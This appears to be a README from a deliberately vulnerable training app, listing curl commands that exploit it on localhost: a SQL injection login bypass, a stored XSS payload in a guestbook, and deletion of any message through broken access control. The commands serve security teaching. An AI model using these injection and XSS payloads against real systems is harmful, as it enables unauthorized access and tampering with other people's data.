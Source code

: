 A collection of curl commands you can use to exploit the vulnerabilities in the application.

## Injection

```bash
# Log in as any user
curl -X POST "http://localhost:8080/api/login" \
  -H "Content-Type: application/json" \
  -d "{\"username\": \"admin\", \"password\": \"' OR username='admin\"}" \
  -v && echo ""
```

## Cross-Site Scripting (XSS)

```bash
# Execute a script when the guestbook page is loaded
curl -X POST "http://localhost:8080/api/messages" \
  -H "Authorization: Bearer <token>" \
  -H "Content-Type: application/json" \
  -d "{\"message\": \"<img onLoad=(alert('pwned')) src=\\\"./favicon.ico\\\" />\"}" \
  -v && echo ""
```

## Broken Access Control

```bash
# Delete any message without admin privileges
curl -X DELETE "http://localhost:8080/api/messages/<messageId>" \
  -H "Authorization: Bearer <token>" \
  -v && echo ""
```
